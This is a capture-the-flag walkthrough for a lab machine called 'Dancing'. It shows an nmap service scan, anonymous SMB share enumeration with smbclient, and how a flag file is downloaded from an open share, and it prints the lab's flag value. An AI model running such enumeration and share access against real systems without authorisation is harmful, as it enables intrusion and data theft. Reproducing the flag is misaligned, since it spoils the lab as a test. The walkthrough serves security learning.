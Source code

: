# Dancing Machine Walkthrough

## Summary

This document details the enumeration and exploitation steps taken to retrieve the flag from the `Dancing` machine (IP: `10.129.110.208`). The process involved network scanning, SMB enumeration, and file extraction.

---

## 1. Nmap Scan

First, a comprehensive Nmap scan was performed to identify open ports and running services.

Bash

```
nmap -Pn -sV -sC -vv 10.129.110.208 -oN nmap.txt
```

**Key Findings:**

- **135/tcp** - Microsoft Windows RPC
- **139/tcp** - Microsoft Windows netbios-ssn
- **445/tcp** - Microsoft-ds (SMB)
- **5985/tcp** - Microsoft HTTPAPI httpd 2.0

<details> <summary>Click to expand Nmap output</summary>

text

```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? 
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
...
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

</details>

---

## 2. Enumerate SMB Shares

Next, enumerate available SMB shares using `smbclient`:

Bash

```
smbclient -L \\\\10.129.110.208\\
```

**Discovered Shares:**

- `ADMIN$`
- `C$`
- `IPC$`
- `WorkShares`

---

## 3. Access the WorkShares Share

Connect to the `WorkShares` share:

Bash

```
smbclient \\\\10.129.110.208\\WorkShares
```

List the contents:

Bash

```
smb: \> ls
```

**Output:**

text

```
  Amy.J       D
  James.P     D
```

---

## 4. Locate and Retrieve the Flag

Navigate to the `James.P` directory and list its contents:

Bash

```
smb: \> cd James.P
smb: \James.P\> ls
```

**Output:**

text

```
  flag.txt    
```

Download the flag:

Bash

```
smb: \James.P\> get flag.txt
```

---

## 5. Read the Flag

Verify the flag was downloaded and display its contents:

Bash

```
ls
cat flag.txt
```

**Flag:**

text

```
5f61c10dffbc77a704d76016a22f1664
```

---

## Conclusion

- **Initial Access:** Enumerated SMB shares and found an accessible share.
- **Privilege Escalation:** Navigated to a user directory and found the flag.
- **Flag:** `5f61c10dffbc77a704d76016a22f1664`
